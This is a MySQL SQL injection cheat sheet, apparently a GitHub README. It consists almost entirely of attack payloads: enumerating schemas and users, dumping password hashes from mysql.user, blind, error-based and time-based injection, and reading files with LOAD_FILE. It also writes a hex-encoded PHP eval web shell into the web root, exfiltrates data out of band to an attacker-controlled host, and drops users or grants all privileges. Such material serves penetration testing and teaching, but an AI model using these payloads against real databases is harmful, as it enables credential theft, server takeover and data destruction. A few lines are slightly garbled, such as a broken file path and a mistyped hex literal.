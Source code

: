 # SQL Injection Cheat Sheet MySQL  :syringe:

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)

by: Eduardo Barbosa (@Anake)  :alien::smiling_imp::boom: 


- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    - [String Concatenation](#String-Concatenation)
    - [If Statement](#If-Statement)
    - [Avoiding Quotes](#Avoiding-Quotes)
    - [Case Statement](#Case-Statement)
    - [Conditionals](#Conditionals)
    - [Time-delay](#Time-delay)
    - [Command Execution](#Command-Execution)
    - [RunAs](#RunAs)
    - [Read Files](#Read-Files)
    - [Outfile Files to www](#Outfile-Files-to-www)
    - [Out-of-Band Retrieval](#Out-of-Band-Retrieval)
    - [Substrings](#Substrings)
    - [Retrieve Nth Line](#Retrieve-Nth-Line)
    - [Select Nth Row](#Select-Nth-Row)
    - [List Privileges](#List-Privileges)
    - [List DBA Accounts](#List-DBA-Accounts)
    - [Delete Users](#Delete-Users)
    - [Make User DBA](#Make-User-DBA)
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

### String Concatenation

```
CONCAT(foo, bar)
```

### If Statement

```
SELECT if(1=1,'foo','bar'); -- returns 'foo'
```

### Avoiding Quotes

```
SELECT 0×414243; # returns ABC
```
### Case Statement

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### Conditionals

```
SELECT IF(1=1,'true','false');
```

### Time-delay

```
SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
```

### Command Execution

```
http://dev.mysql.com/doc/refman/5.1/en/adding-udf.html
```

### RunAs

```
N/A
```

### Read Files

```
SELECT LOAD_FILE('C:Windowswin.ini');
```

### Outfile Files to www

```
select 0x3C3F706870206576616C28245F504F53545B7A5D293B3F3E into outfile '/usr/local/var/www/webshell.php' # <?php eval($_POST[z]);?>"
```

### Out-of-Band Retrieval

```
SELECT LOAD_FILE(concat('\\',(SELECT 1), 'attacker.controlledserver.com\')));
```

### Substrings

```
SELECT substr('Foobr', 1, 1);
```

### Retrieve Nth Line

```
SELECT * FROM table ORDER BY ID LIMIT 3,1
````

### Select Nth Row

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 1    #bypass limit 1,1
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 2
```

### List Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;

list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
   
priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
    
list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
    
list privs on columns
```

### List DBA Accounts

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv

```

### Delete Users

```
DROP USER test1;
```

### Make User DBA

```
GRANT ALL PRIVILEGES ON *.* TO test@'%';
```
